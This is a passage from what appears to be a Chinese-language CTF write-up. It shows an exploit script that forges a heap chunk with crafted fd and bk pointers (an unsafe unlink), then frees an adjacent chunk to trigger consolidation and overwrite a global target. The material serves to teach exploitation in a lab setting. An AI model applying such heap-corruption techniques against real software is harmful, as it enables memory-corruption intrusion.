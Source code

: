 利用脚本：

```plain
target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)
```

首先伪造好 chunk，把 fd，bk 指针修改成我们想要控制的地方

[![](assets/1702521085-be374a2d48edf2271c5a470be4294771.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231029-6d8afd6a-9380-1.png)

此时 delete(1) 就会使 chunk (1) 与 fake\_chunk 进行合并

[![](assets/1702521085-d4613798e1a76592cf63d05122feae02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231041-74456c58-9380-1.png)
